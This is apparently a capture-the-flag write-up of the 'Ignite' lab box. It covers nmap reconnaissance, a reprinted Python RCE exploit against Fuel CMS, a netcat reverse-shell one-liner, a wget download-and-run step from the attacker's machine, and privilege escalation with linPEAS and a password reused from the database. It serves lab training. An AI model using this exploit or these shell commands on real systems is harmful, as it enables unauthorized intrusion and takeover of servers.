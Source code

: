# Ignite

### A new start-up has a few issues with their web server.

### Root the box! Designed and created by DarkStar7471, built by Paradox.

## Recognition

### NMAP

> nmap -sCV -A -O 10.10.226.192

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 15:17 EDT
Nmap scan report for 10.10.226.192
Host is up (0.77s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/23%OT=80%CT=1%CU=42858%PV=Y%DS=4%DC=T%G=Y%TM=5F932C
OS:B0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   472.70 ms 10.4.0.1
2   ... 3
4   794.13 ms 10.10.226.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.72 seconds

```

### Site

![image](https://user-images.githubusercontent.com/53917092/97047048-bb5d0500-154e-11eb-9d20-36f4418aec03.png)

![image](https://user-images.githubusercontent.com/53917092/97047124-d92a6a00-154e-11eb-890b-a2e6fc7d34ca.png)

#### Visiting /fuel

we have a login page

![image](https://user-images.githubusercontent.com/53917092/97047273-155dca80-154f-11eb-84ce-b39629091079.png)


So I searched about this system (fuelcms) on the exploitdb site and found this:

![image](https://user-images.githubusercontent.com/53917092/97047803-e3993380-154f-11eb-95d2-cf25f25b5bac.png)

I will use the RCE Exploit because other else requires authentication and we don't have any credentials

the exploit be like

```

import requests
import urllib

url = raw_input('target (http://IP:PORT) : ')
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

and it uses python2

### Exploiting

![image](https://user-images.githubusercontent.com/53917092/97048985-4e973a00-1551-11eb-99fa-5cbcd09522a4.png)

## getting a reverse shell

using the RCE we check that the machine has WGET command

![image](https://user-images.githubusercontent.com/53917092/97049144-91591200-1551-11eb-869f-77e1d309f88e.png)

so I will use this to download and run a reverse shell file

so I created a .sh file on my machine that contains it:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f

and to access the machine, I used a python server

> nc -lvp PORT

> python3 -m http.server 80

![image](https://user-images.githubusercontent.com/53917092/97050038-0c6ef800-1553-11eb-8d9e-7a41cee2fbdf.png)

now I will download the file and run it in the box using RCE

> wget IP/revshell.sh -O /tmp/revshell.sh; sh /tmp/revshell.sh

![image](https://user-images.githubusercontent.com/53917092/97050364-97e88900-1553-11eb-8070-f63957ed97fd.png)

![image](https://user-images.githubusercontent.com/53917092/97050414-af277680-1553-11eb-9c0a-82eb8efaedfa.png)

it works

### getting a tty

checking if we have python

> whereis python

![image](https://user-images.githubusercontent.com/53917092/97050672-2d841880-1554-11eb-8c26-34b715bb5ed8.png)

we have python2 and python3, and we will use it

> python -c 'import pty;pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/53917092/97050816-6de39680-1554-11eb-884c-304bdb41cec8.png)

### User Flag

![image](https://user-images.githubusercontent.com/53917092/97051978-8f458200-1556-11eb-9655-5c6aef004e72.png)

### Privilege escalation

again using wget, we will use LinPeas to enumarate possibles privilege escalation vectors

downloading

again we will download on our machine, upload a server and then download in the box through our machine

in our machine:

> wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
> chmod +x linpeas.sh
> python3 -m http.server 80

in the box

> cd /tmp
> wget IP:/linpeas.sh

giving the permissions

> chmod +x linpeas.sh

running

> ./linpeas.sh > output.txt

reading output

> cat output.txt

### Privilege Escalation

![image](https://user-images.githubusercontent.com/53917092/97056470-768d9a00-155f-11eb-8d24-a72a0fcd1d02.png)

checking out this database

![image](https://user-images.githubusercontent.com/53917092/97056626-d08e5f80-155f-11eb-9b0f-9815f51646ee.png)

![image](https://user-images.githubusercontent.com/53917092/97056655-e1d76c00-155f-11eb-9ff1-a64e376d405c.png)

trying using this password

![image](https://user-images.githubusercontent.com/53917092/97056752-177c5500-1560-11eb-84bf-9bac6799a1f9.png)

### User flag

![image](https://user-images.githubusercontent.com/53917092/97056937-8659ae00-1560-11eb-803b-ccae406fa5ab.png)

that's it, thanks for reading